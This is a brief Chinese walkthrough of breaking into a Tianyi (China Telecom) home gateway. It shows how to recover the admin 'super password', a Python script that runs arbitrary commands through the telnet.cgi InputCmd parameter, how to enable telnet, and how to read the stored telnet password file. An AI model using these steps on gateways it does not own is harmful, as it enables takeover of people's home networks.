





# 记一次破解天翼网关


>https://xz.aliyun.com/t/9046#toc-1

1. 设备信息



2.首先获取超级密码
访问http://192.168.1.1:8080/cgi-bin/baseinfoSet.cgi




凯撒密码，编写python脚本来解密


3. 使用超级账号密码登录


访问http://192.168.1.1:8080/cgi-bin/telnet.cgi通过InputCmd参数可以直接执行系统命令，
访问http://192.168.1.1:8080/cgi-bin/submit.cgi可以看到执行结果，

编写简单的脚本, 方便看回显
```python
from urllib import parse
import requests

host = "http://192.168.1.1:8080"
send_url = host+"/cgi-bin/telnet.cgi"
response_url = host+"/cgi-bin/submit.cgi"

def f(cmd):
	HEADERS = {'Content-Type': 'application/x-www-form-urlencoded;charset=utf-8'}
	data = {"InputCmd":cmd}

	r = requests.post(send_url, data=parse.urlencode(data)).text
	print("[-] send done:")
	print(r)

	rep = requests.get(response_url).text
	print('[-] resp:')
	print(rep)
if __name__ == '__main__':
	while True:
	    c = input("")
	    f(c)
```


4. 打开telnet

访问 192.168.1.1:8080/cgi-bin/telnetenable.cgi?telnetenable=1 即可

5. 寻找telnet密码

尝试写入/etc/passwd， 但是不起作用，想着看看有没有明文密码

cat /flash/cfg/agentconf/factory.conf 没有
在/var 目录下找到一个密码文件，确定了




cat /var/telWan_passwd

